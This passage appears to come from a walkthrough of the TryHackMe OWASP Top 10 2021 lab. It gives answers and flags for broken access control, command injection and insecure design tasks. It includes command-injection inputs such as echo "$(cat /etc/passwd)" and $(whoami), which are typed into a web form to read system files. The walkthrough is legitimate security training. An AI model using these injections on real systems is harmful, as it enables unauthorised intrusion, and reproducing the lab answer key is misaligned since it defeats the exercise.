 **=> Answer: `qwertyuiop`**

-   <p>Log in as the admin. What is the flag?<br /></p>

![Guide image](/images/posts/owasp-top-10-2021-6.png)

**=> Answer: `THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}`**

### 9. 3. Injection

_No hints needed!_

### 10. 3.1. Command Injection

-   What strange text file is in the website's root directory?

-   Visit `http://<MACHINE_IP>:82` and type `echo "$(ls)"` to see the directory content.

![Guide image](/images/posts/owasp-top-10-2021-7.png)

**=> Answer: `drpepper.txt`**

-   <p>How many non-root/non-service/non-daemon users are there?<br /></p>

**=> Answer: `0`**

-   <p>What user is this app running as?<br /></p>

```bash
echo "$(whoami)"
```

![Guide image](/images/posts/owasp-top-10-2021-9.png)

**=> Answer: `apache`**

-   <p>What is the user's shell set as?<br /></p>

```bash
echo "$(cat /etc/passwd)"
```

![Guide image](/images/posts/owasp-top-10-2021-8.png)

**=> Answer: `/sbin/nologin`**

-   <p>What version of Alpine Linux is running?<br /></p>

```bash
echo "$(cat /etc/alpine-release)"
```

![Guide image](/images/posts/owasp-top-10-2021-10.png)

**=> Answer: `3.16.0`**

### 11. 4. Insecure Design

-   <p>What is the value of the flag in joseph's account?</p>
